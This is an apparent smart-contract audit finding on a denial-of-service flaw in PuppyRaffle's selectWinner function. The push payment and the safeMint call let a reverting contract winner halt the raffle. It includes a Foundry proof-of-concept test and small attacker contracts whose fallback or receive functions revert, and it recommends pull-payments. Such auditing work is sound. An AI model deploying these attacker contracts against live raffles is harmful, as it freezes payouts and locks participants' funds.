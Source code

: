 ### Description:

In the `PuppyRaffle::selectWinner()` function have

```javascript
    (bool success,) = winner.call{value: prizePool}("");
    require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

1. if have a malicious contract use fallback to attack the system, then the system may halt.
2. or There's another attack vector that can be used to halt the raffle, leveraging the fact that the selectWinner function mints an NFT to the winner using the `safeMint` function. This function, inherited from the ERC721 contract, attempts to call the `onERC721Received` hook on the receiver if it is a smart contract. Reverting when the contract does not implement such function.

### Proof of Concept:

```javascript
    function test_SelectWinnerDoS() public {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        address[] memory players = new address[](4);
        players[0] = address(new SelectWinnerAttack());
        players[1] = address(new SelectWinnerAttack());
        players[2] = address(new SelectWinnerAttack());
        players[3] = address(new SelectWinnerAttack());
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.expectRevert();
        puppyRaffle.selectWinner();
    }
contract SelectWinnerAttack {
    fallback() external payable {
        revert();
    }
}

```

Or

```javascript
contract SelectWinnerAttack {
    receive() external payable {
        revert();
    }
}
```

### Recommended Mitigation:

Favor pull-payments over push-payments. This means modifying the selectWinner function so that the winner account has to claim the prize by calling a function, instead of having the contract automatically send the funds during execution of selectWinner.
